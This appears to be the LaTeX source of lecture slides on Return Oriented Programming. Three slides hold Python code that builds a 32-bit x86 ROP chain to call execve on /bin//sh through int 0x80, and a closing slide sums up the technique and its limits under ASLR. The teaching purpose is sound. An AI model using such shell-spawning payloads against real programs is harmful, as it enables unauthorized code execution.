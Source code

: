 \documentclass[11pt]{beamer}
\begin{document}
\begin{frame}[fragile]
    \frametitle{Generating the payload, writing /bin//sh}
    \begin{lstlisting}[style=code, language=python]
p += pack('<I', pop_edx) # write address of .data into edx
p += pack('<I', data)
p += pack('<I', pop_eax) # write /bin into eax
p += bytes('/bin', 'ascii')
p += pack('<I', mov_edx_eax) # mov to .data
p += pack('<I', pop_edx) # address of .data + 4 into edx
p += pack('<I', data + 4)
p += pack('<I', pop_eax) # //sh into eax
p += bytes('//sh', 'ascii')
p += pack('<I', mov_edx_eax) # mov to .data
    \end{lstlisting}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Generating the payload, init params}
    \begin{lstlisting}[style=code, language=python]
p += pack('<I', pop_edx) # address of .data + 8 into edx
p += pack('<I', data + 8)
p += pack('<I', xor_eax_eax) # clear eax
p += pack('<I', mov_edx_eax) # write null after /bin/sh
p += pack('<I', pop_ebx) # write address of program name to ebx
p += pack('<I', data)
p += pack('<I', pop_ecx) # write arguments into ecx
p += pack('<I', data + 8)
p += pack('<I', pop_edx) # write env into edx
p += pack('<I', data + 8)
    \end{lstlisting}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Generating the payload: Init eax, call syscall}
    \begin{lstlisting}[style=code, language=python]
p += pack('<I', xor_eax_eax) # set eax to 11 (execve)
for i in range(11):
    p += pack('<I', inc_eax)
p += pack('<I', int_80) # call interrupt
print(str(p)[2:-1])
with open('payload', 'wb') as file:
    file.write(p)
    \end{lstlisting}
\end{frame}
\section{Conclusion}
\begin{frame}
    \frametitle{Conclusion}
    \begin{itemize}
        \item Return Oriented Programming is a very powerful technique
        \item It is able to execute any system call if there are enough rop gadgets
        \item There are many tools to simplify the process of finding ROP gadgets and generatating ROP payloads
        \item Modern desktops use aslr and other protection mechanisms $\rightarrow$ practically impossible to use ROP
    \end{itemize}
\end{frame}
\end{document}
